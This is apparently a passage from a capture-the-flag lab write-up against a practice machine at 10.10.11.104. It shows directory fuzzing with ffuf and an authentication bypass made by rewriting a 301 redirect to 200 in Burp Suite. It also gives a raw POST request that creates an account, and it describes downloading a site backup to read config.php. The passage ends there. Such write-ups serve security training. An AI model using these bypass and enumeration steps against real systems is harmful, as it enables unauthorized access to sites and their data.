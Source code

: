 Good enumeration was key here...first didnt find any useful directory
Then I started fuzzing with ffuf to find more pages

`ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.104/FUZZ.php`

`nav.php` is the most useful and shows more pages
But all require authentication :(

but we can bypass that with burpsuite
we can see the pages...we request `accounts.php` and change do capture response
change response code from `301 found` (redirect) to `200 Ok` and forward allows us to bypass redirect
Now we create an account to have access

```text
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/login.php
Cookie: PHPSESSID=grjd8tcm0bkoeoqbetojkms7eo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=nairolf&password=nairolf&confirm=nairolf&submit=
```

Forward and now we can login as 'nairolf' and start looking around pages

`status.php`

```text
Check website status:

MySQL server is online and connected!

There are 5 registered admins

There is 1 uploaded file
```

`file_logs.php`
here we can download log file as `out.log`

`files.php`

we can see newguy uploaded a file `sitebackup.zip` we get that

From the sitebackup.zip we get all php files and from `config.php` we get this
